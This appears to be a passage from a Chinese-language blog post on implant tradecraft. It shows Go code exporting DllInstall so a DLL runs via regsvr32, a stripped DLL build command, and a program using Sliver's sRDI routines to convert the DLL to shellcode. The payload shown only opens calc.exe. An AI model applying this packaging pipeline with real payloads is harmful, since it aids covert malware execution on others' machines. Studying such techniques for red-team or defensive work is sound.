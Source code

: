 ```

// Thanks Ne0nd0g for those
//https://github.com/Ne0nd0g/merlin/blob/master/cmd/merlinagentdll/main.go#L65

// DllInstall is used when executing the Sliver implant with regsvr32.exe (i.e. regsvr32.exe /s /n /i sliver.dll)
// https://msdn.microsoft.com/en-us/library/windows/desktop/bb759846(v=vs.85).aspx
//export DllInstall
func DllInstall() { main() }

func main() {
	_ = exec.Command("calc.exe").Run()
}
```

公开了很多接口，方便可以用 regsvr32 等程序调用，并且有互斥变量防止函数被重复调用。

**编译成 dll**

```
go build -ldflags "-s -w" -buildmode=c-shared -o export.dll main.go
```

#### go 调用 sRDI 生成 shellcode

复制 sliver 下 `server/generate/srdi.go` `server/generate/srdi-shellcode.go` 到同一个目录，然后新建一个 go 文件`generate.go`

```
package main

import (
	"fmt"
	"io/ioutil"
	"os"
)

func main() {
	filename := "export.dll"
	functionName := "RunSliver"
	filepath := "shellcode.bin"

	data, err := ShellcodeRDI(filename, functionName, "")
	if err != nil {
		panic(err)
	}
	fmt.Println(len(data))
	_ = os.Remove(filepath)
	err = ioutil.WriteFile(filepath, data, 0644)
	if err != nil {
		panic(err)
	}
}
```
